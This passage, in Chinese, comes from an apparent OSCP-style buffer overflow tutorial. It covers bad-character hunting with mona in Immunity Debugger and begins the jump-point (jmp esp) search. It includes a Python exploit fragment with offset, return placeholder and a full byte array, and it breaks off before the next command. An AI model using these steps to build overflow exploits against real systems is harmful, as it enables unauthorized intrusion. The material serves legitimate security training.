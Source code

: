 ```
# 去掉\x00
!mona bytearray -b "\x00"
```

然后发送数据包

```python

offset = 2056
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

记下ESP寄存器所指向的地址，并在下面的mona命令中使用它。

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

一个弹出的窗口应该出现，标签为 "mona Memory comparison results"。如果没有，请使用窗口菜单切换到它。该窗口显示了比较的结果，表明任何在内存中与生成的bytearray.bin文件中不同的字符。

并非所有这些都是坏字符! 有时坏字符也会导致下一个字节被破坏，甚至影响到字符串的其余部分。

列表中的第一个坏字符应该是空字节（\x00），因为我们已经从文件中删除了它。记下任何其他的坏字符。在mona中生成一个新的字节数，将这些新的坏字符和\x00一起指定。然后更新你的exploit.py脚本中的payload变量，把新的坏字符也删除。

重新启动Immunity中的exe，再次运行修改后的exploit.py脚本。重复坏字符的比较，直到结果状态返回 "未修改"。这表明没有更多的badchars存在。

### **5. 寻找跳跃点:**

最后，您应该获得要用来重写 EIP 的值。它必须是一个指向可执行指令的指针。理想情况下，此指针：

- 跳转到指令或等效指令：

  ```plaintext
  jmp esp
  ```

  - `call esp`
  - `push esp; ret`

- 不包含任何不良字符

可以使用以下命令在免疫中找到这样的地址：
